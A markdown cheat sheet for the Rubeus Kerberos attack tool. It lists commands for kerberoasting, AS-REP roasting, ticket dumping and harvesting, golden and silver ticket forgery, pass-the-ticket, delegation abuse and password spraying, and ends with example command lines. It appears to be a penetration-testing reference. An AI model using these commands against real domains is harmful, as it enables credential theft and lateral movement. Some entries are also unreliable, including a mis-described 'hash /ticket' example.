 ### Author: https://github.com/GhostPack/Rubeus

### Commands:

#### asktgt = Request a ticket-granting-ticket (TGT) from a hash/key or password

#### asktgs = Request a service ticket from a passed TGT

#### renew = Renew or autorenew a TGT or service ticket

#### spray / brute = Kerberos-based brute-force, password spray attacks

#### preauthscan = Scan for accounts that don't require kerberos authentication (ASREPRoasting)

### Flags:

#### /user:USER

#### /HASH_ALGORITHM:HASH

#### /getcredentials

#### /certificate:CERTIFICATE

#### /password:PASSWORD

#### /dc:DOMAIN_CONTROLLER

#### /ptt (Pass-the-Ticket)

#### /domain:DOMAIN

#### /service:SERVICE

#### /ticket:BASE64_TICKET

#### /impersonateuser:USER

### TICKET FORGERY

#### golden = TGT

#### silver = Service ticket / TGS

#### diamond = Diamond ticket

### TICKET MANAGEMENT

#### ptt = Apply a ticket to the current (or specified) logon session

#### purge = Purge the session of Kerberos tickets

#### describe = Describe a ticket base64 blob or .kirbi file

### TICKET EXTRACTION AND HARVESTING

#### triage = LUID,username,service,service target,ticket expiration

#### klist = Detailed logon session and ticket info

#### dump = Detailed logon session and ticket data

#### tgtdeleg = Retrieve usable TGT for non-elevated user

#### monitor = Monitor logon events and dump new tickets

#### harvest = Same as monitor but with auto-renewal functionality

### ROASTING

#### kerberoast = Perform kerberoasting against all users (or specified)

#### asreproast = Perform AS-REP roasting against all users (or specified)

#### s4u = Perform S4U2self and S4U2proxy actions (Constrained delegation abuse)

### MISCELLANEOUS

#### createnetonly = Create a process of logon type 9

#### changepw = Aorato kerberos password reset

#### hash = Hash a plaintext password to kerberos encryption keys

#### tgssub = Substitute in alternative service names into a service ticket

#### logonsession = Display logon session info

#### currentluid = Display current user's LUID

### TECHNIQUES

#### 1) Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] 

#### 2) Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]

#### 3) Rubeus.exe klist [/luid:LOGINID]

#### 4) Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]

#### 5) Rubeus.exe triage (List available tickets)

#### 6) Rubeus.exe dump /luid:0x12d1f7 (Dump one ticket, the output is in Kirbi format)

#### 7) Rubeus.exe renew /ticket:BASE64_TICKET (Renewing a ticket)

#### 8) Rubeus.exe hash /ticket:BASE64_TICKET (Convert a ticket to hashcat format for offline cracking)
